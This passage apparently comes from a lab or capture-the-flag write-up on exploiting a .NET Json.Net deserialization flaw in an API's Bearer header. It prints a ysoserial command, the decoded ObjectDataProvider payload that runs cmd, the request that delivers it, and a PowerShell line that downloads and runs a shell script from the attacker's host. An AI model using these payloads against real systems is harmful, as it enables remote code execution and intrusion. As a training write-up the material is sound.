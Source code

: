 After sending a random string in the _Bearer_ header, the response shows an interesting error message:
```
GET /api/Account/ HTTP/1.1
(...)
Bearer: RandomString
```
```
{
  "Message":"An error has occurred.",
  "ExceptionMessage":"Cannot deserialize Json.Net Object",
  "ExceptionType":"System.Exception",
  "StackTrace":null
}
```

This web server may be vulnerable to **.NET Deserialization** and to exploit such a vulnerability, I will use the tool [ysoserial](https://github.com/pwntester/ysoserial.net).
As this is a Windows tool, the payload will be created on a Windows client.

Creating .NET Payload:
```
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "ping -n 1 10.10.14.5" -o base64
```

Base64-decoded payload:
```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c ping -n 1 10.10.14.5']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

Sending the Base64-encoded payload in the HTTP request:
```
GET /api/Account/ HTTP/1.1
(...)
Bearer: ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb(...)
(...)
```

After sending the request, the `tcpdump` listener on my client will receive an ICMP packet and proofs command execution.
Lets send a command that downloads a PowerShell script from our client.

Base64-encoding the command to upload a shell script:
```
echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0; echo
```
